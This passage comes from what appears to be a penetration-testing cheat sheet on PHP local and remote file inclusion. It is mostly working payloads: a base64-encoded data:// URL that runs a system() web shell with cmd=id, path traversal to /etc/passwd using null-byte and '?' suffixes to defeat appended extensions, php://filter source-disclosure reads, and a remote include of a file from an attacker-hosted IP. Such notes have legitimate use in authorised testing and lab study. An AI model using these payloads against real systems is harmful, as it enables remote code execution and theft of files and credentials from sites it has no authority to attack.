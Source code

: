      echo '<?php phpinfo();?>' | base64
     # PD9waHAgcGhwaW5mbygpOz8+Cg==
     ```

  2. Insert base64 encode into URL with command (this has been tested):

     ```bash
     # CMD Code
     http://example.thm.labs/page.php?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOyA/Pgo=&cmd=id
     
     #PHP Info Code (you have to URL encode the +)
     http://example.thm.labs/page.php?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2BCg==
     ```


##### Bypassing Extension Appends

Some sites will append an extension to your URLs, for example to make it so they always end in .php.  You can get around this by appending one of the following to your URL:

```bash
# PHP versions 5.3 and below
http://example.com/page=../../../../../../etc/passwd%00
# Should work on anything, basically adds a blank parameter that the appended extension sticks to and gets ignored
http://example.com/page=../../../../../../etc/passwd?
```

##### Bypassing PHP Execution

You may want to read a PHP file without it executing.  To bypass this, use the following in front of the file you want to load to convert the file into base64 or ROT13 so PHP won't execute it:

```bash
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index

http://example.com/index.php?page=php://filter/read=string.rot13/resource=index
```

Then take that Base64 and decode it.  You can use BurpSuite or save it to a file and decode it with:

```bash
base64 -d savefile.php
```

#### RFI

RFI is uncommon because it requires specific options to be explicitly defined: `requires allow_url_fopen=On` and `allow_url_include=On`

1. Try to load a file hosted on Kali:

   ```bash
   www.url.com/spot.php?page=http://192.168.119.216/test.txt
   ```
